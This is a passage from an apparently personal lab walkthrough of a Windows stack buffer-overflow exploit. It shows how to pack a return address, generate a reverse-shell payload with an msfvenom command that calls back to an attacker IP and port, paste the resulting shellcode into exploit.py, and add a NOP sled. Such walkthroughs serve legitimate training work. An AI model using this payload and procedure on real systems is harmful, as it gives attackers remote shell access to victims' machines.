 Our first address is: 625011AF  
So we break this down to 62 50 11 af  
And then we line this up 'backwards' and paste it into our exploit.py
```
\xaf\x11\x50\x62
```
Mind the leading \ backslash - I forgot it my first time around!{: .warning }

### Generate a Payload
We use MSFVenom to generate a payload. We're specifying a stageless windows payload because the victim machine is running windows. Note that your lhost and lport will differ. The -b switch is where we're specifying our bad characters, once again, your results will likely differ. Just be sure to include all of the bad characters found previously.
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.13.192 LPORT=443 EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1" -f c
```
We take the output from this command and modify exploit.py, overwriting whatever we had there for the 'payload' variable. Note that we don't need anything except the output in quotes. For the payload varialbe in our script, it should similar to the following, noting the positioning of the quotations and parenthesis:
```
payload = ("\xd9\xeb\xd9\x74\x24\xf4\xbf\x21\xac\x4c\x68\x58\x31\xc9"
"\xb1\x52\x31\x78\x17\x83\xe8\xfc\x03\x59\xbf\xae\x9d\x65"
"\x57\xac\x5e\x95\xa8\xd1\xd7\x70\x99\xd1\x8c\xf1\x8a\xe1"
"\xc7\x57\x27\x89\x8a\x43\xbc\xff\x02\x64\x75\xb5\x74\x4b"
"\x86\xe6\x45\xca\x04\xf5\x99\x2c\x34\x36\xec\x2d\x71\x2b"
"\x1d\x7f\x2a\x27\xb0\x6f\x5f\x7d\x09\x04\x13\x93\x09\xf9"
"\xe4\x92\x38\xac\x7f\xcd\x9a\x4f\x53\x65\x93\x57\xb0\x40"
"\x6d\xec\x02\x3e\x6c\x24\x5b\xbf\xc3\x09\x53\x32\x1d\x4e"
"\x54\xad\x68\xa6\xa6\x50\x6b\x7d\xd4\x8e\xfe\x65\x7e\x44"
"\x58\x41\x7e\x89\x3f\x02\x8c\x66\x4b\x4c\x91\x79\x98\xe7"
"\xad\xf2\x1f\x27\x24\x40\x04\xe3\x6c\x12\x25\xb2\xc8\xf5"
"\x5a\xa4\xb2\xaa\xfe\xaf\x5f\xbe\x72\xf2\x37\x73\xbf\x0c"
"\xc8\x1b\xc8\x7f\xfa\x84\x62\x17\xb6\x4d\xad\xe0\xb9\x67"
"\x09\x7e\x44\x88\x6a\x57\x83\xdc\x3a\xcf\x22\x5d\xd1\x0f"
"\xca\x88\x76\x5f\x64\x63\x37\x0f\xc4\xd3\xdf\x45\xcb\x0c"
"\xff\x66\x01\x25\x6a\x9d\xc2\x40\x66\x90\xd2\x3d\x7a\xaa"
"\xd3\x06\xf3\x4c\xb9\x68\x52\xc7\x56\x10\xff\x93\xc7\xdd"
"\xd5\xde\xc8\x56\xda\x1f\x86\x9e\x97\x33\x7f\x6f\xe2\x69"
"\xd6\x70\xd8\x05\xb4\xe3\x87\xd5\xb3\x1f\x10\x82\x94\xee"
"\x69\x46\x09\x48\xc0\x74\xd0\x0c\x2b\x3c\x0f\xed\xb2\xbd"
"\xc2\x49\x91\xad\x1a\x51\x9d\x99\xf2\x04\x4b\x77\xb5\xfe"
"\x3d\x21\x6f\xac\x97\xa5\xf6\x9e\x27\xb3\xf6\xca\xd1\x5b"
"\x46\xa3\xa7\x64\x67\x23\x20\x1d\x95\xd3\xcf\xf4\x1d\xf3"
"\x2d\xdc\x6b\x9c\xeb\xb5\xd1\xc1\x0b\x60\x15\xfc\x8f\x80"
"\xe6\xfb\x90\xe1\xe3\x40\x17\x1a\x9e\xd9\xf2\x1c\x0d\xd9"
"\xd6")
```
We also need to add in some NOPs - think of these as padding to allow more time for the exploit to be read and execute. My understanding is that we can add or subtract these in increments of 8, but 16 should do the trick in most cases. If the listener doesn't pickup, we may return here and increase the NOPs to 32.   
We add NOPs by modifying the exploit.py's 'padding' variable like so:
```
padding = "\x90" * 16
```

